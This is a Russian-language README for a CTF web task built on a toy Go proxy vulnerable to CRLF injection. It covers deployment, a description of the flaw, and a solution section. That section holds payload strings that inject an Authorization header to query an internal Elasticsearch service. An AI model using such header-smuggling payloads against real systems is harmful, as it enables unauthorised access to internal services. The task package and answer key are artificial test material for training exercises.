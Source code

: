 # Web | easy | Gap

# Информация
Псс, здаров! 

Начал изучать go, решил запилить прокси. Если доступ ограничат, то можно ходить через него. Правда он еще не все умеет...будем считать это alpha версией

## Деплой
1. Поменять флаг на нужный
2. ПРи необходимости изменить порт таска (сервис прокси)
```bash
   cd deploy
   docker-compose up
```

## Выдать участникам
IP:PORT
Файл public/docker-compose.yml

## Описание
Таск основан на уязвимости CRLF в старых версиях go (<= 1.11.5). Задача - выполнить запрос к внутренним ресурсам, установив заголовок Authorization

## Решение
1. Заходим на страницу и вводим в поле строки
2. ```
   db:9200?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
   ```
   где (Y3RmY3VwOmN0ZmN1cA = base64(login:pass) = base64(ctfcup:ctfcup))

   таким образом мы понимаем, что там elasticsearch (если по порту это не ясно)
3. db:9200/_aliases?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
4. db:9200/smth_interesting/_search?pretty=true&q=*:* HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
5. Сдаем флаг

[exploit](solution/exploit.py)

# Флаг
Придумать и установить самим
